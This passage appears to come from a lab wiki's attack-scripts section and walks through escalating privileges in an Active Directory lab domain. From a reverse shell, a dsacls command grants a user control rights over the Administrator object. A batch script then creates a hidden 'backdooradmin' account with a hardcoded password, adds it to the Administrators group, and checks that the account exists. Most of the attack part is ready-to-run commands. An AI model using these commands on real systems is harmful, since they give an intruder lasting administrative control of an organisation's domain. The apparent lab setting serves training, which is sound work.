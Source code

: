 You obtained the password! Now you can use it to your advantage.

In the reverse shell:

```bash
dsacls "CN=Administrator,CN=Users,DC=GISC,DC=lab" /G "jack:CA"
```

You granted the user jack the control access right (that jack:CA) on the Administrator account object in Active Directory.

#### Using Administrator with the proposed scripts and further commands

Let's create a script that creates a backdoor admin account using batch. The following code should be saved as a `.bat` file:

```batch
@echo off
:: Create new admin user
net user backdooradmin S3cur3P@ssw0rd /add

:: Add to Administrators group
net localgroup Administrators backdooradmin /add
```

![create admin](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Andrei%20Chiper/images/img14.jpeg?raw=true)

Verify admin user was created:

```powershell
net user backdooradmin
```
